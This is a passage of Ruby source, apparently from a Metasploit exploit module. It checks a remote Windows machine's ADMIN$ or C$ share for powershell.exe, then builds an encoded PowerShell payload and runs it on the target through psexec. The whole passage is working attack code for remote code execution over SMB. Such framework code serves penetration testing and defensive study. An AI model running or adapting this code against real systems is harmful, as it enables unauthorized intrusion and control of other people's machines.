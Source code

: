     handler
  end


  # TODO: Again, shamelessly copypasta from the psexec exploit module. Needs to
  #       be moved into a mixin

  def powershell_installed?
    share = "\\\\#{datastore['RHOST']}\\#{datastore['SHARE']}"

    case datastore['SHARE'].upcase
    when 'ADMIN$'
      path = 'System32\\WindowsPowerShell\\v1.0\\powershell.exe'
    when 'C$'
      path = 'Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe'
    else
      path = datastore['PSH_PATH']
    end

    simple.connect(share)

    vprint_status("Checking for #{path}")

    if smb_file_exist?(path)
      vprint_status('PowerShell found')
      psh = true
    else
      vprint_status('PowerShell not found')
      psh = false
    end

    simple.disconnect(share)

    psh
  end

  def powershell
    ENV['MSF_SERVICENAME'] = datastore['SERVICE_NAME']
    command = cmd_psh_payload(payload.encoded, payload_instance.arch.first)

    if datastore['PSH::persist'] and not datastore['DisablePayloadHandler']
      print_warning("You probably want to DisablePayloadHandler and use exploit/multi/handler with the PSH::persist option")
    end

    # Execute the powershell command
    print_status("Executing the payload...")
    begin
      psexec(command)
    rescue StandardError => exec_command_error
      fail_with(Failure::Unknown, "#{peer} - Unable to execute specified command: #{exec_command_error}")
    end
  end
